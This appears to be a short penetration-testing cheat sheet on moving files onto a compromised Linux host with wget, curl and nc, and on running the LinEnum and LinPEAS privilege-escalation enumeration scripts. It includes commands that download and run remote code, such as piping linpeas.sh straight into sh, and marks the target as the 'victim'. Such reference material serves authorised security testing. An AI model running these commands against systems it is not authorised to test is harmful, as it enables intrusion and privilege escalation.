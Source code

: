 ## Linux


### wget
```
wget http://ip-addr[:port]/file [-o output-file]

wget ftp://ip-addr[:port]/file [-o output-file] # Doesn't support binaries
```


### curl
```
curl http://ip-addr[:port]/file [-o output-file]
```


### nc
```
{ echo -e "GET /[FILE NAME] HTTP/1.0\r\n"; sleep 1; } | nc -n [IP] [PORT] > [OUTPUT NAME] && sed -i '1,/^$/d' [OUTPUT NAME]
```







### LinEnum

- <https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>

```

LinEnum.sh -s -k keyword -r report -e /tmp/ -t

```







### LINPeas
```
# From github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Without curl
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"

python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"


# Use a linpeas binary
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64

# Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors





```